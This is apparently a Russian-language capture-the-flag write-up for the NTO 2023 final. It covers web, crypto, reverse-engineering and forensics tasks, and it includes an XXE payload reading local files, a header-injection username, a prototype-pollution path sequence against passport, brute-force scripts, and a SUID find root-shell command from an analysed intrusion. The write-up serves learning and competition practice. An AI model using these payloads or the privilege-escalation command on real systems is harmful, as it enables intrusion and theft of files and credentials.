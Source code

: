 # nto-final-2023-solves

## WEB 1

Пробуем различные атаки, используя форму рассчёта цены. Расшифровываем входящие и исходящие данные, используя клиентский js-скрипт, расположенный на сайте.
Замечаем, что в функцию encrypted можно передать xml помимо json. Значит, можно попытаться совершить xxe-атаку. Пробуем передать следущие данные (используя burpsuite), предварительно зашифровав их:

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]><data><countries>&xxe;</countries><startdate>&xxe;</startdate><enddate>&xxe;</enddate><resttype>&xxe;</resttype></data>

Получаем ответ от сервера, расшифровываем:

    {"format":"xml","data":"<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<!DOCTYPE foo [\n<!ENTITY xxe SYSTEM \"file:///flag.txt\">\n]>\n<data>\n  <countries>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</countries>\n  <startdate>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</startdate>\n  <enddate>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</enddate>\n  <resttype>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\n</resttype>\n  <price>NaN</price>\n</data>\n"}

Видим, что флаг:

    nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}

## WEB 2

Исследуем скрипт приложений. Замечаем уязвимость в скрипте приложения, запущенного на порте 3002: куки небезопасно вставляются и передаются в приложение на порте 3001.
Переменную flag мы менять не можем, а вот переменную username вольно задаём при регистрации. Используя burpsuite, пробуем применять header injection в username.

Передаём следующий ник:

    test\r

На сервере возникает ошибка, и он выводит нам сообщение:

Bad Request Bare CR or LF found in header line "Cookie: username=test ;flag=NTO{request_smuggling_917a34072663f9c8beea3b45e8f129c5}" (generated by waitress)

Как видим, флаг:

    nto{request_smuggling_917a34072663f9c8beea3b45e8f129c5}

## WEB 3

Анализируем исходный код приложения. Видим, что можно применить prtotype pollution, напрямую через интерфейс сайта. Видим, что в коде самого приложения уязвимостей нету. Изучаем на github исходные ходы библиотек, использующихся в приложении.
В исходном коде библиотеки passport находим подходящее свойство для prototype pollution - userProperty.
Замечаем, что при присваивании свойству userProrerty значения isLocalRequest, при аутенфикации в isLocalRequest запишется информация о пользователе. Последовательно переходим по следующим каталогам сайта:

    /pollute/userProperty/isLocalRequest
    /auth?username=test
    /admin/flag

Получаем флаг:

    nto{pr0t0typ3_pollut10n_g4dged5_f56acc00f5eb803de88496b}

## CRYPTO 1

После нескольких запусков исходного кода замечаем, что вывод первый чисел не зависит от длины введенной строки. Немного редактируем файл, дописывая полный перебор в его конец:

    orig = [277, 92, 775, ... 926, 1281, 631]
    res = ''

    for i in range(len(orig)):
       for j in 'qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLXCVBNM{}_1234567890':
         dihedral = DihedralCrypto(1337)
         answer = dihedral.hash((res + j).encode('utf-8'))
         if answer[i] == orig[i]:
           res += j
           break
    print(res)

Запустив его и подождав пару минут, получаем флаг:

    nto{5tr4ng3_gr0up_5tr4ng3_l0g_and_depressed_kid_zxc_ghoul}

## CRYPTO 2

Замечаем, что если очередной бит флага равен 1, то результат, возращаемый с сервера, может быть абсолютно любым. Иначе, результат не может быть меньше чем n // 2. Исольхуем этот факт при написании следующего кода:

    from requests import get
    from Crypto.Util.number import long_to_bytes

    n = 7260248502...14489681551

    def f():
      cur_i, ans = 0, ''
      res = None
      while True:
        for _ in range(10):
          res = get(f'http://10.10.25.10:1177/guess_bit?bit={cur_i}').json()
          if 'error' in res:
            return ans
          if res['guess'] < n // 2:
            ans += '1'
            cur_i += 1
            break
        else:
          cur_i += 1
          ans += '0'

    print(long_to_bytes(int(f(), 2)).decode('utf-8'))

Запускаем, получаем флаг:

    nto{0h_n0_t1m1ng}

## REVERSE 2

Открыв данный исполняемый файл в IDA, сразу идем в функцию, где происходит проверка флага (поиск по подстроке nto). В этой функции видно, что данная строка разбивается на 7 int32 чисел и переводится в little-endian формат. 
Далее мы находим вызовы в инициализацию эмулятора unicorn, а также 224-байтный шеллкод на архитектуре MIPS x32. При дизассемблинге данного шелла, мы находим основную проверку на корректность флага. Алгоритм шифрования выглядит так:

    flag[0] &= 0x2c2c2c2c;
    compare(flag[0], const0);
    flag[0] ^= flag[1];
    compare(flag[0], const1);
    flag[0] ^= flag[2];
    compare(flag[0], const1);
    ....
    flag[0] &= flag[6];
    compare(flag[0], const6);

В данном случае можно легко восстановить операции xor, т.к. они однозначно обратимы. Получаем флаг (неизвестные части - знак вопроса)

    nto{Wh0_54id????s_1S_M3d????

В случае с and (4 и 7 части флага), можно догадаться что это слова This и Medium. Получаем флаг:

    nto{Wh0_54id_Th1s_1S_M3dium}
   
## PART 2 - VM 1(LINUX)

Злоумышленник попал на машину используя reverse-shell вшитый в файл игры minecraft.jar. Он подключался на 192.168.126.129:4444 и выполнял удаленные команды. После заражения, используя linPEAS, злоумышленник использовал неправильно настроенный find с suid битом. Используя команду 

    find . -exec /bin/sh -p ; -quit 
   
он поднял права до root. После заражения, злоумышленник загрузил кейлоггер logkeys. В истории команд можно найти путь до исполняемого файла кейлоггера: /home/sergey/Downloads/build/src/logkeys. Загрузив файл в любой дизассемблер, можно быстро найти как кейлоггер берет путь до файла лога. В кейлоггере используется простой XOR по ключу. Расшифровав путь, получаем /var/log/logkeys.log. Там и хранятся логи. Это также видно из истории команд bash_history. В файле /var/log/logkeys.log злоумышленник нашел логи нажатий клавиш, откуда нашел пароль от keepass2: 

    1_D0N7_N0W_WHY_N07_M4Y83_345Y

Запустив keepass2 и введя этот пароль, можно найти пароль от "windows rdp": 

    SecretP@ss0rdMayby_0rNot&
